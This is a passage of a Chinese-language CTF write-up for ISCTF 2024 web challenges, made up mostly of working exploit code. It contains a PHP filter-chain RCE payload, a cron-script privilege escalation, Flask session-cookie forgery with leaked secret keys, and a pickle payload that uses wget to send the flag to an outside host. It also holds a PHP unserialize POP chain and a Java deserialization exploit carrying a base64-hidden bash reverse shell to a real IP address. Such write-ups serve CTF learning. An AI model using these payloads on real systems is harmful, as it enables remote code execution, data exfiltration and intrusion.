ATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|string.strip_tags&cmd=system('tac flag.php');小蓝鲨的临时存储室
文件上传木马后，flag没有权限，查一下suid，有suexec不过没法利用
find / -perm -u=s -type f 2>/dev/null看到根目录下有down_file.sh，这是一个定时任务，于是修改命令
#!/bin/bash
cat /flag > /tmp/flag.txt小蓝鲨的冒险
<?php
error_reporting(0);
highlight_file(__FILE__);
$a = "isctf2024";
$b = $_GET["b"];
@parse_str($b);
if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
$num = $_POST["num"];
if($num == 2024){
die("QAQ");
}
if(preg_match("/[a-z]/i", $num)){
die("no no no!");
}
if(intval($num,0) == 2024){
if (isset($_GET['which'])){
$which = $_GET['which'];
switch ($which){
case 0:
print('QAQ');
case 1:
case 2:
require_once $which.'.php';
echo $flag;
break;
default:
echo GWF_HTML::error('PHP-0817', 'Hacker NoNoNo!', false);
break;
}
}
}
}
- parse_str：b=a[0]=QLTHNDT
- intval：num=2024.6
- which=flag
小鲨鱼的故事
robots.txt获得jwt密钥tpkX2Gln
/Header 页面得到hint 构造用户为ISctf_Hacker
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Z5NI0Q.omKnpv4drjj4_Tlg3qTqfjgxTsA' -s 'tpkX2Gln'
{'username': b'www-data'}
python3 flask_session_cookie_manager3.py encode -s 'tpkX2Gln' -t "{'username': b'ISctf_Hacker'}"
eyJ1c2VybmFtZSI6eyIgYiI6IlNWTmpkR1pmU0dGamEyVnkifX0.Z5NKRQ.GF5llzpXU52dMGKB1oE8phIyYHo伪造之后去访问flag
新闻系统
from flask import *
import pickle
import base64
app = Flask(__name__)
app.config["SECRET_KEY"] = "W3l1com_isCTF"
class News:
def __init__(self, title, content) -> None:
self.title = title
self.content = content
def __repr__(self) -> str:
return f"news(name={self.title}, words={self.content})"
class NewsList:
def __init__(self) -> None:
self.news_list = []
def create_news(self, title, content) -> None:
news = News(title,content)
self.news_list.append(news)
def export_news(self, news_title) -> str | None:
news = self.get_news(news_title)
if news is not None:
self.news_list.remove(news)
return '删除成功'
return None
def add_news(self, serialized_news) -> None:
try:
news_data = base64.b64decode(serialized_news)
black_list = ['create_news','export_news','add_news','get_news']
for i in black_list:
if i in str(news_data):
return False
news = pickle.loads(news_data)
if isinstance(news,News):
for i in self.news_list:
if i.title == news.title:
return False
self.news_list.append(news)
return True
return False
except Exception:
return False
def get_news(self, news_title) -> News | None:
for news in self.news_list:
if str(news.title) == news_title:
return news
return None
newslist = NewsList()
@app.route("/")
def index():
return redirect("/login")
@app.route("/login", methods=["GET", "POST"])
def login():
if request.method == "POST":
username = request.form.get('username')
password = request.form.get('password')
if username == 'test' and password == 'test111':
session['username'] = username
session['password'] = password
session['status'] = 'user'
return redirect('/news')
else:
session['login_error'] = True
return render_template("login.html")
@app.route("/news")
def news():
news = newslist.news_list
return render_template("news.html",news = news)
@app.route('/admin',methods=['GET','POST'])
def admin():
if session.get('status') != 'admin' or session.get('username') != 'admin' or session.get('password') != 'admin222':
return redirect("/login")
news = newslist.news_list
return render_template("admin.html",news = news)
@app.route("/create", methods=["POST"])
def create_news():
if session.get('status') != 'admin' or session.get('username') != 'admin' or session.get('password') != 'admin222':
return redirect("/login")
title = request.form.get('title')
content = request.form.get('content')
newslist.create_news(title,content)
return redirect("/admin")
@app.route("/export", methods=["POST"])
def export_news():
if session.get('status') != 'admin' or session.get('username') != 'admin' or session.get('password') != 'admin222':
return redirect("/login")
news_title = request.form["title"]
result = newslist.export_news(news_title)
if result is not None:
return jsonify({"result": result})
else:
return jsonify({"error": "news not found"})
@app.route("/add", methods=["POST"])
def add_news():
if session.get('status') != 'admin' or session.get('username') != 'admin' or session.get('password') != 'admin222':
return redirect("/login")
serialized_news = request.form["serialized_news"]
if newslist.add_news(serialized_news):
return redirect("/admin")
else:
return jsonify({"error": "Failed to add news"})
if __name__ == "__main__":
app.run(host="0.0.0.0", port=8888, debug=False, threaded=True)登录后伪造JWT
python36 flask_session_cookie_manager3.py decode -c '.eJyrVsrJT8_Mi08tKsovUrIqKSpN1VEqSCwuLs8vSlGyUipJLS4xNDRU0lEqLkksKS0GCpUWpxYB-SAqLzE3FapIqRYA7_MZ7A.Z5NNjQ.T6rUHPDzg_WYCrSyiIE24Nwmlyc' -s 'W3l1com_isCTF'
{'login_error': True, 'password': 'test111', 'status': 'user', 'username': 'test'}
python36 flask_session_cookie_manager3.py encode -s 'W3l1com_isCTF' -t "{'login_error': True, 'password': 'admin222', 'status': 'admin', 'username': 'admin'}"
.eJyrVsrJT8_Mi08tKsovUrIqKSpN1VEqSCwuLs8vSlGyUkpMyc3MMzIyUtJRKi5JLCkthokBBUqLU4vyEnNT4UK1ADxQGss.Z5NN-Q.v5Wzu08UIvScnAITqsHLkDyISDg在add路由发现了 pickle 反序列化漏洞
import base64
opcode=b'''cos
system
(S"wget http://IP:PORT/?a=`cat /f*`"
tR.
'''
print(base64.b64encode(opcode))

天命人
<?php
error_reporting(0);
# 帮天命人搜集法宝，重获齐天之姿！
class Wuzhishan{
public $wu="俺老孙定要踏破这五指山！<br>";
public $zhi;
public $shan;
function __get($j)
{
echo "此地阴阳二气略显虚浮，加上刚刚带入的阳气，或可借此遁逃！<br>";
$yin="s214587387a";
$yang=$_GET['J'];
if (md5($yin)==$yang&&md5($yin)==md5($yang)){
echo "哦？又一个不信天命之人？行了，拿了东西速速离开吧<br>";
system('cat /flag');
}
}
}
class Huoyanjinjing{
public $huoyan;
public $jinjing;
function __get($huo)
{
$this->huoyan="火眼能洞察一切邪祟！<br>";
echo $this->huoyan->jinjing;
}
function __invoke()
{
$this->jinjing="金睛能看破世间迷惘！<br>";
echo $this->huoyan->jinjing;
}
}
class Dinghaishenzhen{
public $Jindou="一个筋斗能翻十万八千里！<br>";
public $yun;
function __toString()
{
$f=$this->yun;
$f();
return "你真的逃出去了吗？天命人？<br>";
}
}
class Jingdouyun{
public $Qishier=72;
public $bian="看俺老孙七十二变！<br>";
function __sleep()
{
echo "三更敲门，菩提老祖送我筋斗云...<br>";
echo new Jindouyun();
}
}
class Tianmingren {
public $tianming;
public $ren;
function __destruct()
{
echo "迷途中的羔羊，你相信天命吗？<br>";
echo $this->tianming;
}
}
$data = unserialize($_POST['Wukong']);
throw new Exception('开局一根棍，装备全靠打。');
?> Exp:
<?php
error_reporting(0);
# 帮天命人搜集法宝，重获齐天之姿！
class Wuzhishan{
public $wu="俺老孙定要踏破这五指山！<br>";
public $zhi;
public $shan;
}
class Huoyanjinjing{
public $huoyan;
public $jinjing;
}
class Dinghaishenzhen{
public $Jindou="一个筋斗能翻十万八千里！<br>";
public $yun;
}
class Tianmingren {
public $tianming;
public $ren;
}
$a = new Tianmingren();
$a->tianming = new Dinghaishenzhen();
$a->tianming->yun = new Huoyanjinjing();
$a->tianming->yun->huoyan = new Wuzhishan();
echo "Wukong=".serialize(array($a, 0));
// Wukong=a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";O:15:"Dinghaishenzhen":2:{s:6:"Jindou";s:40:"一个筋斗能翻十万八千里！<br>";s:3:"yun";O:13:"Huoyanjinjing":2:{s:6:"huoyan";O:9:"Wuzhishan":3:{s:2:"wu";s:40:"俺老孙定要踏破这五指山！<br>";s:3:"zhi";N;s:4:"shan";N;}s:7:"jinjing";N;}}s:3:"ren";N;}i:0;i:0;}在生成的payload后将i:1手动改成i:0,之后令J=0e215962017
0e215962017的 MD5 值也是由 0e 开头，在 PHP 弱类型比较中相等
蓝鲨的java入门课堂
给了提示URLDNS链
Evil.class
package cat.uwu.begin_java;
import java.io.IOException;
import java.io.Serializable;
public class Evil implements Serializable {
private String cmd;
private Evil(String cmd) {
this.cmd = cmd;
}
public int hashCode() {
String result;
try {
result = Runtime.getRuntime().exec(this.cmd).toString();
} catch (IOException e) {
throw new RuntimeException(e);
}
return result.hashCode();
}
}
Exp:
package com.hsad.serializable;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;
public class Draft {
public static void main(String[] args) throws Exception {
String cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTYuMjM4LjIzMy45NS82Nzg5IDA+JjE=}|{base64,-d}|{bash,-i}";
Class<?> evilClass = Class.forName("cat.uwu.begin_java.Evil");
Constructor<?> evilConstructor = evilClass.getDeclaredConstructor(String.class);
evilConstructor.setAccessible(true);
Object evil = evilConstructor.newInstance("calc"); // 防止提前触发
HashMap<Object, Integer> map = new HashMap<Object, Integer>();
map.put(evil, 1);
Field cmdField = evilClass.getDeclaredField("cmd");
cmdField.setAccessible(true);
cmdField.set(evil, cmd);
System.out.println(base64Serialize(map));
}
public static String base64Serialize(Object data) throws Exception {
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(data);
oos.close();
byte[] bytes = Base64.getEncoder().encode(baos.toByteArray());
return new String(bytes);
}
public static void base64Deserialize(String data) throws Exception {
byte[] bytes = Base64.getDecoder().decode(data);
ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
ObjectInputStream ois = new ObjectInputStream(bais);
ois.readObject();
ois.close();
}
}
